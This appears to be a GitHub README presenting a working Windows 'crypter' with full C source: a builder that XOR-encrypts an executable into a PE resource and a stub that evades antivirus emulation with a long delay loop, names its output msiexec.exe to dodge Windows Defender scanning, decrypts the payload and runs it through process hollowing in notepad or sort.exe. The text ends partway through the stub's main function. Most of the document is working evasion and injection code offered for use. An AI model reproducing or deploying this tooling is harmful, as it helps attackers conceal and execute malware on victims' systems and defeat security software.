





# Resource Crypter
This is a very basic implementation of a crypter.
The executable to encrypt is stored in a loader PE file as a Windows Resource -
https://docs.microsoft.com/en-us/windows/win32/menurc/resources.The loader is a decryption program that will load the Resource into memory, decrypt it, and execute it.
Here is an example of a binary called
msiexec.exe with a Resource attached.
It has an ID of 250 and is called
LANG.
It's not actually a language pack, it's an encrypted PE file that will be decrypted and executed.
## Example
Here is an example a Resource Crypter.
A "Hello, world!" program is stored as a resource in a vessel PE file.
Upon execution, the vessel PE file will load the "Hello, world!" program from its resource into memory, decrypt it, and execute in a target process via process hollowing.
If the PE is a GUI application, it will inject into
NotepadIf the PE is a Console application, it will inject into
sort.exe### Testing
I've only tested this:
• on
Windows 10 2004 19041.630• with x64 binaries (not tried x86)
### AV Bypass
To prevent dynamic analysis from anti-virus products, at the start of the program is a loop to 1 billion. This prevents AV from dynamically running our binary because they don't want to hog the user's system, so won't execute this loop and won't ever see the decrypted file.
The technique can be found here on page 10:
https://wikileaks.org/ciav7p1/cms/files/BypassAVDynamics.pdfThe final encrypted file is called
msiexec.exeApparently Windows Defenders skips scanning files named
msiexec.exe:
https://twitter.com/julianpentest/status/1192662369467555841### Encryption
The encryption is null-preserving XOR encryption
•
00 isn't xor'd
• equal bytes aren't xor'ed (e.g.
41 and
41, which will xor to
00`)
### Demo
-
builder - this combines the decryption stub and the executable to encrypt into 1 file
-
stub - this is the decryption stub
-
hello_world - this is a demo
"Hello, world!" program that can be encrypted for testing
1. Create an encrypted file with the builder
builder.exe "path/to/stub.exe" "path/to/file/to/crypt.exe"builder.exe "C:\Users\Bob\Desktop\stub.exe" "C:\Users\Bob\Desktop\protectme.exe"This creates an
msiexec.exe file.
2. Run the
msiexec.exe file
The decryption program now loads the "Hello, world!" program from its resource, decrpyts it, and runs it inside of a target process.
Here we can see that
msiexec.exe:
• bypassed AV
• loaded the "Hello, world" program from Resource into memory
• decrypted it
• spawned a
sort.exe process, hollowed it out, and executed our decrypted PE inside of it
Memory for our decrypted PE was allocated at
0x00007FF6D2E80000 in the target process
sort.exe.
With process hacker, at address
0x00007FF6D2E80000, we can see our PE file!
If we look at the
"Hello, world" PE file when it's as a Resource in
msiexec.exe, we can see that it's completely encrypted.
## Code
### hello_world
This is the dummy program that I used for testing.
#include <stdio.h>
#include <Windows.h>
int main(void)
{
MessageBoxA(NULL, "Hello, world!", "Title :)", MB_OK);
return 0;
}
### builder
Here is the builder, which adds the file to encrypt as a resource to the decryption program.
/*
# Builder
This builder creates a copy of the stub, XORs the target malware, and adds the malaware to the stub copy as a resource.
The stub + malware is saved as 1 file.
*/
#include <stdio.h>
#include <Windows.h>
/*
Make sure to call free(file_buffer) after you're done.
*/
LPVOID ReadFileIntoBuffer(char* file_name, OUT DWORD* file_buffer_size)
{
LPVOID file_buffer = NULL;
BOOL b_ret = TRUE;
HANDLE h_file = NULL;
DWORD file_size = 0;
// open target file
h_file = CreateFileA(file_name, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (h_file == INVALID_HANDLE_VALUE)
{
printf("[-] failed to open target file: %d \n", GetLastError());
goto cleanup;
}
// get file size
file_size = GetFileSize(h_file, NULL);
(*file_buffer_size) = file_size;
// create buffer to read file into
file_buffer = malloc(file_size);
// read file into buffer
b_ret = ReadFile(h_file, file_buffer, file_size, NULL, NULL);
if (b_ret == FALSE)
{
printf("[-] failed to read file into buffer: %d \n", GetLastError());
free(file_buffer);
goto cleanup;
}
cleanup:
if (h_file) CloseHandle(h_file);
return file_buffer;
}
WORD GetPEArchitecture(LPVOID image_base)
{
WORD architecture = 0;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
dos_header = (PIMAGE_DOS_HEADER)image_base;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)image_base + dos_header->e_lfanew);
// 0x10b is 32bit
// 0x20b is 64bit
architecture = pe_header->OptionalHeader.Magic;
return architecture;
}
/*
NULL preserving XOR.
Parameters:
lpBuffer - buffer to XOR
dwBufferSize - size of buffer to XOR
Return:
void
*/
void XOR_buffer(LPVOID buffer, DWORD buf_size)
{
char key[] = { 'm', 'u', 'c', 'h', 'c', 'r', 'y', 'p', 't', 'v', 'e', 'r', 'y', 's', 'e', 'c', 'r', 'e', 't' };
char* buffer_cpy = (char*)buffer;
DWORD i;
for (i = 0; i < buf_size; i++)
{
// if byte == 00 don't xor (because it shows key)
// or byte is same as key don't XOR (because will produce 00)
if ((buffer_cpy[i] == 0x00) || (buffer_cpy[i] == key[i % sizeof(key)]))
{
continue;
}
// if byte != 00, XOR it
else
{
buffer_cpy[i] ^= key[i % sizeof(key)];
}
}
return;
}
/*
Adds a resource to a PE file with ID: 250 and Name: LANG
*/
BOOL AddResource(char* pe_file, LPVOID rsrc_buffer, DWORD rsrc_size)
{
BOOL b_ret = TRUE;
BOOL okay = TRUE;
HANDLE h_update = NULL;
// open file
h_update = BeginUpdateResourceA(pe_file, FALSE);
if (h_update == NULL)
{
printf("[-] failed to start updating PE resources: %d \n", GetLastError());
return FALSE;
}
// add resource (ID: 250. Name: LANG)
b_ret = UpdateResourceA(h_update, MAKEINTRESOURCEA(250), "lang", LANG_SYSTEM_DEFAULT, rsrc_buffer, rsrc_size);
if (b_ret == FALSE)
{
printf("[-] failed to add rsource to PE: %d \n", GetLastError());
return FALSE;
}
// save changes
b_ret = EndUpdateResourceA(h_update, FALSE);
if (b_ret == FALSE)
{
printf("[-] failed to save resource changes to PE: %d \n", GetLastError());
return FALSE;
}
return okay;
}
int main(int argc, char* argv[])
{
printf("# builder \n");
printf("- takes a stub.exe and packs your PE into it as a resource \n\n");
if (argc != 3)
{
fprintf(stderr, "[-] not enough arguments :/ \n");
printf("usage: builder.exe [path/to/stub.exe] [path/to/exe/to/crypt.exe] \n");
return EXIT_FAILURE;
}
BOOL b_ret = FALSE;
char* stub_path = argv[1];
char* exe_path = argv[2];
LPVOID exe_buffer = NULL;
DWORD exe_size = 0;
LPVOID stub_buffer = NULL;
DWORD stub_size = 0;
WORD stub_architecture = 0;
WORD exe_architecture = 0;
// read executable to crypt and stub into memory
printf("[+] stub: \"%s\" \n", stub_path);
printf("[+] exe: \"%s\" \n\n", exe_path);
exe_buffer = ReadFileIntoBuffer(exe_path, &exe_size);
if (exe_buffer == NULL)
return EXIT_FAILURE;
printf("[+] exe read into memory @ 0x%p \n", exe_buffer);
stub_buffer = ReadFileIntoBuffer(stub_path, &stub_size);
if (stub_buffer == NULL)
return EXIT_FAILURE;
printf("[+] stub read into memory @ 0x%p \n", stub_buffer);
// check that architecture of stub & exectuable match
stub_architecture = GetPEArchitecture(stub_buffer);
exe_architecture = GetPEArchitecture(exe_buffer);
#ifdef _WIN64
if (stub_architecture != 0x20b)
{
printf("[!] 64bit stub required \n\t %s is not 64bit \n", stub_path);
return EXIT_FAILURE;
}
else if (exe_architecture != 0x20b)
{
printf("[!] 64bit PE required \n\t %s is not 64bit \n", exe_path);
return EXIT_FAILURE;
}
#else
if (stub_architecture != 0x10b)
{
printf("[!] 32bit stub required \n\t %s is not 32bit \n", stub_path);
return EXIT_FAILURE;
}
else if (exe_architecture != 0x10b)
{
printf("[!] 32bit PE required \n\t %s is not 32bit \n", exe_path);
return EXIT_FAILURE;
}
#endif
// XOR encrypt executable
printf("[+] encrypting .exe... ");
XOR_buffer(exe_buffer, exe_size);
printf("done! \n");
#ifdef _DEBUG
char filename[] = "encrypted.bin";
HANDLE h_file = NULL;
DWORD bytes_written = 0;
h_file = CreateFileA(filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
WriteFile(h_file, exe_buffer, exe_size, &bytes_written, NULL);
CloseHandle(h_file);
printf("[debug] XOR'd %s created \n", filename);
#endif
// make copy of stub & save as `msiexec.exe`
// msiexec.exe is excluded from Windows Defender realtime scanning - https://twitter.com/0gtweet/status/1194627280695250944
char final_file[MAX_PATH] = ".\\msiexec.exe";
printf("[+] creating crypted file: \"%s\" \n", final_file);
b_ret = CopyFileA(stub_path, final_file, FALSE);
if (b_ret == FALSE)
{
fprintf(stderr, "[-] failed to create copy of stub: %d \n", GetLastError());
return EXIT_FAILURE;
}
// add encrypted executable to stub as a resource
b_ret = AddResource(final_file, exe_buffer, exe_size);
if (b_ret == FALSE)
{
fprintf(stderr, "[-] failed to add resource to %s: %d \n", final_file, GetLastError());
return EXIT_FAILURE;
}
printf("[+] successfully added \"%s\" as a resource to the stub! \n", exe_path);
printf("[+] complete! \n");
printf("[*] crypted file now ready at : \"%s\" \n", final_file);
// clean up
free(exe_buffer);
free(stub_buffer);
return 0;
}
### stub
This is the decryption program that stores the PE file as a resource , decrypts it, and executes it.
Most of the code in here is actually process hollowing code. Executng the PE file from memory can be done any way you like.
/*
# Stub
This stub loads an executable from the PE resources into memory, decrypts it, loads it into a target process' memory via process hollowing and executes it.
File can be compiled as 32bit or 64bit.
- 32bit stub is for loading 32bit PEs
- 64bit stub is for loading 64bit PEs
*/
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
typedef struct BASE_RELOCATION_ENTRY
{
USHORT Offset : 12;
USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
typedef NTSTATUS(__stdcall* t_NtUnmapViewOfSection)(HANDLE Processhandle, PVOID BaseAddress);
t_NtUnmapViewOfSection d_NtUnmapViewOfSection;
/*
Prevent automated dynamic analysis by AV (which will run the start of this .exe) from seeing the decrypted resource.
AV doesn't want to execute a massive loop this and hog the user's system, so it will never reach the decryption stage and see the decrypted PE.
*/
void BypassAV()
{
DWORD count = 1000000000;
for (DWORD i = 0; i < count; i++)
continue;
return;
}
LPVOID ExtractResource(OUT DWORD* rsrc_size)
{
HANDLE h_module = NULL;
HANDLE h_resinfo = NULL;
HANDLE h_resource = NULL;
DWORD resource_size = 0;
LPVOID rsrc_buffer = NULL;
DWORD old_protect = 0;
// load resource
h_module = GetModuleHandleW(NULL);
h_resinfo = FindResourceW(h_module, L"LANG", MAKEINTRESOURCEW(250));
h_resource = LoadResource(h_module, h_resinfo);
// grab size
resource_size = SizeofResource(h_module, h_resinfo);
*rsrc_size = resource_size;
// allocate memory for resource
//unsigned char* lpRsrcBuffer = HeapAlloc(GetProcessHeap(), 0, dwRsrcSize);
rsrc_buffer = VirtualAlloc(NULL, resource_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// load resource into memory
rsrc_buffer = LockResource(h_resource);
// set RWX persmissions on memory
VirtualProtect(rsrc_buffer, resource_size, PAGE_EXECUTE_READWRITE, &old_protect);
return rsrc_buffer;
}
void XOR_buffer(LPVOID buffer, DWORD buf_size)
{
char key[] = { 'm', 'u', 'c', 'h', 'c', 'r', 'y', 'p', 't', 'v', 'e', 'r', 'y', 's', 'e', 'c', 'r', 'e', 't' };
char* buffer_cpy = (char*)buffer;
DWORD i;
for (i = 0; i < buf_size; i++)
{
// if byte == 00 don't xor (because it shows key)
// or byte is same as key don't XOR (because will produce 00)
if ((buffer_cpy[i] == 0x00) || (buffer_cpy[i] == key[i % sizeof(key)]))
{
continue;
}
// if byte != 00, XOR it
else
{
buffer_cpy[i] ^= key[i % sizeof(key)];
}
}
return;
}
WORD GetSubsystem(LPVOID image_buffer)
{
WORD subsystem = 0;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
dos_header = (PIMAGE_DOS_HEADER)image_buffer;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)image_buffer + dos_header->e_lfanew);
// GUI is 2
// Console is 3
subsystem = pe_header->OptionalHeader.Subsystem;
return subsystem;
}
/*
Convert VirtualAddress (address in memory) to raw address (address on disk).
Does so by finding which PE section your VirtualAddress is in,
subtracting the section's start address to find the relative virtual address,
and then adding the RVA to the start of the section on disk.
*/
DWORD va2raw(LPVOID file_buffer, DWORD va)
{
DWORD rva = 0;
DWORD raw_address = 0;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_SECTION_HEADER section_header = NULL;
// grab section header
dos_header = (PIMAGE_DOS_HEADER)file_buffer;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)file_buffer + dos_header->e_lfanew);
section_header = IMAGE_FIRST_SECTION(pe_header);
if (va < section_header->PointerToRawData)
return va;
// loop through sections
for (int i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
// find start and end of current section
DWORD section_start = section_header->VirtualAddress;
DWORD section_end = section_header->VirtualAddress + section_header->SizeOfRawData;
// if the provided RVA is within the bounds of this current section
if (va >= section_start && va < section_end)
{
// calculate raw address
rva = va - section_start;
raw_address = section_header->PointerToRawData + rva;
break;
}
// advance to next section
section_header += 1;
}
return raw_address;
}
/*
Get the base address of a remote process.
Doesn't use undocumented structs & functions.
Return:
On success, returns image base of target.
On failure, returns NULL.
*/
LPVOID GetRemoteBaseAddress(HANDLE h_process, HANDLE h_thread)
{
BOOL b_ret;
LPVOID image_base_location = NULL;
LPVOID image_base_address = NULL;
CONTEXT remote_ctx = { 0 };
remote_ctx.ContextFlags = CONTEXT_FULL;
// get thread info about remote process
b_ret = GetThreadContext(h_thread, &remote_ctx);
if (b_ret == FALSE)
return NULL;
// read base address from registers
#ifdef _WIN64
image_base_location = (LPVOID)(remote_ctx.Rdx + 16);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 8, NULL);
if (b_ret == FALSE)
return NULL;
#else
image_base_location = (LPVOID)(remote_ctx.Ebx + 8);
b_ret = ReadProcessMemory(h_process, image_base_location, &image_base_address, 4, NULL);
if (b_ret == FALSE)
return NULL;
#endif
return image_base_address;
}
BOOL PerformBaseRelocations(LPVOID file_buffer, LPVOID original_base, LPVOID new_base)
{
BOOL okay = TRUE;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_FILE_HEADER coff_header = NULL;
PIMAGE_OPTIONAL_HEADER pe_optional_header = NULL;
PIMAGE_BASE_RELOCATION reloc_table = NULL;
PIMAGE_BASE_RELOCATION reloc_block = NULL;
PBASE_RELOCATION_ENTRY reloc_entry = NULL;
DWORD reloc_table_size = 0;
SIZE_T image_base_delta = 0;
dos_header = (PIMAGE_DOS_HEADER)file_buffer;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)dos_header + (DWORD_PTR)dos_header->e_lfanew);
// calcuate difference in base addresses - the delta
image_base_delta = (SIZE_T)new_base - (SIZE_T)original_base;
printf("\t original base: 0x%p \n", (LPVOID)original_base);
printf("\t new base: 0x%p \n", new_base);
printf("\t delta: 0x%p \n", (LPVOID)image_base_delta);
if (image_base_delta == 0)
{
printf("[!] image bases are the same. no relocations needed! \n");
okay = TRUE;
return okay;
}
// grab relocation table
reloc_table = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)file_buffer + va2raw(file_buffer, pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress));
reloc_table_size = pe_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size;
printf("\n\t relocation directory @ 0x%p \n", reloc_table);
// grab first relocation block
// first relocation block is at same address as relocation table
reloc_block = reloc_table;
// loop through relocation table
DWORD block_count = 1;
DWORD no_of_entries_in_block = 0;
DWORD position_in_reloc_table = 0;
while (position_in_reloc_table < reloc_table_size)
{
// read block info
no_of_entries_in_block = (reloc_block->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
printf("\t\t block #%d \n", block_count);
printf("\t\t\t size: 0x%x \n", reloc_block->SizeOfBlock);
printf("\t\t\t no. of entries: %d \n\n", no_of_entries_in_block);
// grab first relocation entry in block
reloc_entry = (PBASE_RELOCATION_ENTRY)(reloc_block + 1);
// loop through entries in block
for (DWORD i = 0; i < no_of_entries_in_block; i++)
{
// grab address of relocation. value at that address is the function address to relocate
#ifdef _WIN64
PDWORD64 reloc_addr = (LPVOID)((DWORD64)file_buffer + va2raw(file_buffer, reloc_block->VirtualAddress + reloc_entry->Offset));
#else
PDWORD reloc_addr = (LPVOID)((DWORD)file_buffer + va2raw(file_buffer, reloc_block->VirtualAddress + reloc_entry->Offset));
#endif
printf("\t\t\t reloc #%d \t[TypeOffset] 0x%X%X ", i, reloc_entry->Type, reloc_entry->Offset);
printf("\t\t [original value] 0x%p ", (LPVOID)*reloc_addr);
/*
Perform relocations by adding the image base delta to the value stored at the relocation address.
LOW relocations point to the lower 8 bits of WORD values.
HIGH relocations point to the higher 8 bits of WORD values.
HIGHLOW relocations point to DWORD values.
DIR64 relocations point to DWORD64 values.
*/
switch (reloc_entry->Type)
{
case IMAGE_REL_BASED_ABSOLUTE: // 0
printf("\t [type] ABSOLUTE- skipping relocation ");
break;
case IMAGE_REL_BASED_HIGH: // 1
printf("\t [type] HIGH ");
PWORD reloc_addr_HIGH = (PWORD)reloc_addr; // typecast reloc_addr as a pointer to a WORD
*reloc_addr_HIGH += HIWORD(image_base_delta); // add the higher 8 bits of the delta at reloc_addr
break;
case IMAGE_REL_BASED_LOW: // 2
printf("\t [type] LOW ");
PWORD reloc_addr_LOW = (PWORD)reloc_addr; // typecast reloc_addr as a pointer to a WORD
*reloc_addr_LOW += LOWORD(image_base_delta); // add the lower 8 bits of the delta at reloc_addr
break;
case IMAGE_REL_BASED_HIGHLOW: // 3
printf("\t [type] HIHGLOW ");
PDWORD reloc_addr_HIGHLOW = (PDWORD)reloc_addr; // typecast reloc_addr as a pointer to a DWORD
*reloc_addr_HIGHLOW += image_base_delta; // add the delta to the value at reloc_addr
break;
case IMAGE_REL_BASED_DIR64: // 10
printf("\t [type] DIR64 ");
PDWORD64 reloc_addr_DIR64 = (PDWORD64)reloc_addr; // typecast relocAddr as a pointer to a DWORD64
*reloc_addr_DIR64 += image_base_delta; // add the delta to the value at reloc_addr
break;
default:
printf("\t [type] UNKNOWN- skipping relocation ");
break;
}
// read data at reloc_addr to check it's been modified
printf("\t [modified value] 0x%p \n", (LPVOID)*reloc_addr);
// advance to next entry
reloc_entry += 1;
}
// advance to next block
block_count += 1;
position_in_reloc_table += reloc_block->SizeOfBlock;
reloc_block = (PIMAGE_BASE_RELOCATION)((DWORD64)reloc_block + reloc_block->SizeOfBlock);
}
return okay;
}
BOOL ProcHollow(LPVOID source_pe, char* target_name, WORD target_subsystem)
{
BOOL okay = TRUE;
BOOL b_ret = TRUE;
NTSTATUS nt_status;
PIMAGE_DOS_HEADER dos_header = NULL;
PIMAGE_NT_HEADERS pe_header = NULL;
PIMAGE_SECTION_HEADER section_header = NULL;
LPVOID source_base = NULL;
LPVOID target_base = NULL;
STARTUPINFOA target_si = { 0 };
PROCESS_INFORMATION target_pi = { 0 };
CONTEXT target_ctx = { 0 };
target_ctx.ContextFlags = CONTEXT_FULL;
// get source PE info
dos_header = (PIMAGE_DOS_HEADER)source_pe;
pe_header = (PIMAGE_NT_HEADERS)((DWORD_PTR)source_pe + dos_header->e_lfanew);
source_base = (LPVOID)pe_header->OptionalHeader.ImageBase;
printf("[*] source: \n");
printf("\t buffer loaded at: 0x%p \n", source_pe);
printf("\t image base: 0x%p \n", source_base);
printf("\t entry point: 0x%p \n", (LPVOID)pe_header->OptionalHeader.AddressOfEntryPoint);
// create a suspended target process
b_ret = CreateProcessA(NULL, target_name, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &target_si, &target_pi);
if (b_ret == FALSE)
{
printf("[-] failed to create suspended process: %d \n", GetLastError());
okay = FALSE;
goto cleanup;
}
else
printf("[*] target process created: \"%s\" \n", target_name);
// grab base address of target process
target_base = GetRemoteBaseAddress(target_pi.hProcess, target_pi.hThread);
if (target_base == NULL)
{
printf("[-] failed to get base address of target process \n");
okay = FALSE;
goto cleanup;
}
else
printf("\t target base address: 0x%p \n", target_base);
/*
NOTE:
I can comment out both relocating the PE and changing the source base, and the code will still work.
I have no idea why. Implies my image rebasing is wrong? (but I don't think it is)
*/
// relocate PE to target base
printf("[*] performing base relocations \n");
b_ret = PerformBaseRelocations(source_pe, source_base, target_base);
// change source base address to target base address so that imports will work
pe_header->OptionalHeader.ImageBase = (SIZE_T)target_base;
printf("[*] modified source base to target base: 0x%p \n", (LPVOID)pe_header->OptionalHeader.ImageBase);
// match the source PE's subsystem with the target PE's subsystem (usually Console or GUI)
// you get a 0xc00000142 error if the source PE and target PE's subsystems don't match
pe_header->OptionalHeader.Subsystem = target_subsystem;
printf("[*] changed subsystem to: 0x%x \n", target_subsystem);
// hollow out target process from image base
printf("[*] hollowing... \n");
d_NtUnmapViewOfSection = (t_NtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("Ntdll.dll"), "NtUnmapViewOfSection");
nt_status = d_NtUnmapViewOfSection(target_pi.hProcess, target_base);
if (!NT_SUCCESS(nt_status))
{
printf("[-] failed to get hollow target @ 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t target hollowed at: 0x%p \n", target_base);
// allocate memory in target process
target_base = VirtualAllocEx(target_pi.hProcess, target_base, pe_header->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (target_base == NULL)
{
printf("[-] failed to allocate memory in target @ 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t allocated RWX memory in target at: 0x%p \n", target_base);
// write PE headers into target
b_ret = WriteProcessMemory(target_pi.hProcess, target_base, source_pe, pe_header->OptionalHeader.SizeOfHeaders, NULL);
if (b_ret == FALSE)
{
printf("\t failed to write PE headers to 0x%p \n", target_base);
okay = FALSE;
goto cleanup;
}
else
printf("\t wrote PE headers to 0x%p \n", target_base);
// write PE sections section 1 by 1 (as windows loader does) to map the source PE into the target's memory
printf("\t sections: \n");
section_header = IMAGE_FIRST_SECTION(pe_header);
LPVOID section_address = NULL;
LPVOID write_address = NULL;
for (DWORD i = 0; i < pe_header->FileHeader.NumberOfSections; i++)
{
section_address = (LPVOID)((DWORD_PTR)source_pe + section_header->PointerToRawData);
write_address = (LPVOID)((DWORD_PTR)target_base + section_header->VirtualAddress);
b_ret = WriteProcessMemory(target_pi.hProcess, write_address, section_address, section_header->SizeOfRawData, 0);
if (b_ret == FALSE)
{
printf("\t\t failed to write %s to 0x%p \n", section_header->Name, write_address);
okay = FALSE;
goto cleanup;
}
else
printf("\t\t wrote %s to 0x%p \n", section_header->Name, write_address);
section_header += 1;
}
// grab registers from target process
b_ret = GetThreadContext(target_pi.hThread, &target_ctx);
if (b_ret == FALSE)
{
printf("[-] failed to grab registers of target process: %d \n", GetLastError());
okay = FALSE;
goto cleanup;
}
/*
Copy our injected PE's entry point into the target process's register.
- for 32bit, the entry point is copied into EAX
- for 64bit, it goes in RCX
*/
#ifdef _WIN64
target_ctx.Rcx = (DWORD_PTR)target_base + pe_header->OptionalHeader.AddressOfEntryPoint;
printf("[*] copied source entry point into RCX: 0x%p \n", (LPVOID)target_ctx.Rcx);
#else
target_ctx.Eax = (DWORD_PTR)target_base + pe_header->OptionalHeader.AddressOfEntryPoint;
printf("[*] copied source entry point into EAX: 0x%p \n", (LPVOID)target_ctx.Eax);
#endif
// run our injected PE by resuming the process
printf("[*] process hollowing complete & image mapped. resuming execution... \n");
SetThreadContext(target_pi.hThread, &target_ctx);
ResumeThread(target_pi.hThread);
cleanup:
CloseHandle(target_pi.hProcess);
CloseHandle(target_pi.hThread);
return okay;
}
int main()
{
DWORD rsrc_size = 0;
LPVOID extracted_pe = NULL;
WORD extracted_pe_subsystem = 0;
char target_process[MAX_PATH] = { 0 };
//FreeConsole();
printf("[*] bypassing AV... \n");
BypassAV();
// load resource into buffer
extracted_pe = ExtractResource(&rsrc_size);
if (extracted_pe == NULL)
{
fprintf(stderr, "[-] failed to extract PE from resource: %d \n", GetLastError());
return 1;
}
printf("[+] resource loaded into memory @ 0x%p \n", extracted_pe);
// decrypt
printf("[*] decrypting PE... \n");
XOR_buffer(extracted_pe, rsrc_size);
#ifdef _DEBUG
char filename[] = "decrypted.bin";
HANDLE h_file = NULL;
DWORD bytes_written = 0;
h_file = CreateFileA(filename, GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
WriteFile(h_file, extracted_pe, rsrc_size, &bytes_written, NULL);
CloseHandle(h_file);
printf("[debug] XOR'd %s created \n", filename);
#endif
// determine process to inject into based on subsystem
extracted_pe_subsystem = GetSubsystem(extracted_pe);
if (extracted_pe_subsystem == IMAGE_SUBSYSTEM_WINDOWS_GUI)
strcpy_s(target_process, MAX_PATH, "notepad");
else if (extracted_pe_subsystem == IMAGE_SUBSYSTEM_WINDOWS_CUI)
strcpy_s(target_process, MAX_PATH, "sort");
else
